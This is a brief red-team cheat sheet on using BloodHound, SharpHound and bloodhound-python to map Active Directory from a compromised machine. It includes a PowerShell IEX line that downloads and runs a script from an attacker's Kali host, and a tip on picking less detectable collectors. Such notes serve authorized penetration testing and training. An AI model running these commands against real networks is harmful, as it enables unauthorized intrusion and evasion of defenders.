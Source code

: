 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```



<span style="font-size: 35px; color:red"><b>BloodHound</b></span>
&nbsp;
Start BloodHound

```bash
sudo neo4j console
```

```bash
./bloodhound --no-sandbox
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>SharpHound</b></span>
Pull AD Configuration from pwned machine and load it into BloodHound
Copy _sharphound.exe_ in the pwned machine and run it from there
```shell
./SharpHound.exe -c all
```
It will create a .zip file that you can drag and drop into bloodhound

OR
```powershell
IEX(New-Object Net.WebClient).downloadString('http://<Kali_IP>/SharpHound.ps1')  
Invoke-BloodHound -CollectAll
```

Look for users that you pwned and use the suggestion box for 'shortest path from owned principles'
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>BloodHound-Python</b></span>
If you have working credentials but no shell, you can use bloodhound-python from remote like so:
```shell
bloodhound-python -u <user> -p <password> -ns <IP> -d <DOMAIN> -c all
```

---

<span style="color:red">Give a try to rusthound, maybe it's faster and less detectable!</span>
